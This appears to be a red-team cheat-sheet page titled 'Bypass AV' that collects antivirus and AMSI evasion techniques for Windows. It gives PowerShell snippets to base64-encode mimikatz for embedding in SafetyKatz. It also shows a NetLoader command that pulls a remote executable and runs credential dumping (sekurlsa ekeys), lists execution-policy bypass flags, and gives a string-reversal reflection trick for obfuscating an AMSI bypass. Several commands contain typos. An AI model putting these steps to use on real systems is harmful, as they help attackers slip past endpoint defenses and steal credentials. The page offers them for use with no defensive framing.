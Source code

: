 ```yaml
---
layout: app
title: "Bypass AV"
tags: ["bypass","evassion", "av", "DefenderCheck", "Netloader"]

---
```


# DefenderCheck

DefenderCheck It's to be used to detect all bytecode that could be detected by AV.
              
[https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)

[Out-CompressedDll](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)

# AV Bypass

## BetterSafetyKatz
1. Download the latest releafe of mimikatz_trunk.zip
2. Convert file to base64


```powershell
$filename = "c:\temp\mimikatz_trunk.zip"
[Convert]::TOBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
3. Modify [SafetyKatz](https://github.com/Flangvik/BetterSafetyKatz/blob/master/SafetyKatz/Program.cs) with above value

## Netloader

[https://github.com/Flangvik/NetLoader](https://github.com/Flangvik/NetLoader)

### Example

```powershell
Loader.exe -path http://xxxxx.exe skurlsa:ekeys exit
```

## Invisi-Shell

Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies.
[https://github.com/OmerYa/Invisi-Shell](Invisi-Shell)

## AMSITrigger

To Scan custom script to avoid signature
https://github.com/RythmStick/AMSITrigger

## Invoke-Obfuscation

To Obfuscate the AMSI bypass
[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

## Native

```powershell
powershell -ExecutionPolicy Bypass
powershell -c cmd
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

### Obfuscate Runtime Instructions

```powershell
$String="niamoDppA.metsyS"
$classrev = ([regex::Matches($String,'.','RightToLeft')]) | ForEach {$_.value} - join ''
$AppDomain = [Reflection.Assembly].Assembly.GetType("$classrev").GetProperty('CurrentDomain').GetValue($null, @())

```
